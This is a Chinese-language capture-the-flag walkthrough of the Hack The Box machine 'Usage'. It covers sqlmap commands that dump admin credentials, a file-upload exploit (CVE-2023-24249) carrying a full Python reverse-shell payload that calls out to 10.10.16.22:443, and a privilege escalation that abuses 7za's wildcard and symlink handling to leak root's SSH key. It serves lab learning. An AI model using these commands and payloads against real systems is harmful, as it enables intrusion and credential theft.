

# namp


# 80端口

## 子域名-admin

admin.usage.htb下是个登录页面，应该是管理员后台登录页面，需要账号密码


## forget-password

测试sql注入时，单引号闭合时返回的是500服务器错误，双引号闭合时返回正常，sqlmap进行注入



```shell
sqlmap -r sql --batch --dbs --level 3
```


```shell
sqlmap -r sql -D usage_blog --tables -batch -p email --level 3
```


```shell
sqlmap -r sql -D usage_blog -T admin_users -C "name,password,username" --dump  -batch -p email --level 3 
```


使用john破解


## RCE-GetShell


更换头像时存在文件上传漏洞，可以参考这篇文章

[CVE-2023-24249 漏洞 |飞 D --- CVE-2023-24249 | flyD](https://flyd.uk/post/cve-2023-24249/)


可以成功命令执行，反弹shell


```
http://admin.usage.htb/uploads/images/php.jpg.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.16.22%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```


## 提权

dash目录下有monit的配置文件，经查询monit是个监控软件，查看查看进程，后台也有monit在运行


依次读取各个文件在`.monitrc`中找到了管理员密码，`home`目录下还有另一个用户，使用该密码可以成功切换到另一个用户`xander`


该用户有`usage_management`的sudo权限

该程序的功能是备份源码，将该程序放在本地逆向看看，调用7za进行压缩

> -tzip:指定目标存档的文件类型，即 ZIP
>
> -a代表追加模式，并将文件添加到指定的存档 （ /var/backups/project.zip ）
>
> -snl:将符号链接存储为链接（而不是它们指向的文件）
>
> -mnt:启用多线程以实现更快的压缩
>
> -- *:包括当前目录中的所有文件和目录

`-snl`的作用时将符号链接压缩之后保存为链接，而不是该链接指向的文件，例如创建的链接为`a->b`，压缩之后还是保持该链接，解压之后不会有两个b，应该还是`a->b`的关系


需要先创建一个`@id_rsa`,将id_rsa定义为目录文件，7z解压时就会报错，就能显示其链接的文件内容


